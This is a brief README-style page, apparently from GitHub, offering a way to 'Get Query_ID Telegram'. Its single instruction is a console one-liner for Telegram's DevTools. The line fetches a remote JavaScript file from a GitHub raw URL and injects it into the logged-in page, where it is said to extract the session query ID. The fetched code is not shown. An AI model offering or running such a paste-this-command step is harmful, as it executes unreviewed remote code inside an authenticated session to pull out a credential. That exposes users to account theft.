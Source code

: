 
# 🚀 Get Query_ID Telegram


## ⚙️ Run in console DevTools Telegram
```
   fetch('https://raw.githubusercontent.com/wahyuda110/query_id_get/main/queryyyyyyy.js') .then(r => r.text()) .then(t => { const s = document.createElement('script'); s.textContent = t; document.head.appendChild(s).remove(); }) .catch(console.error);

    ```
   
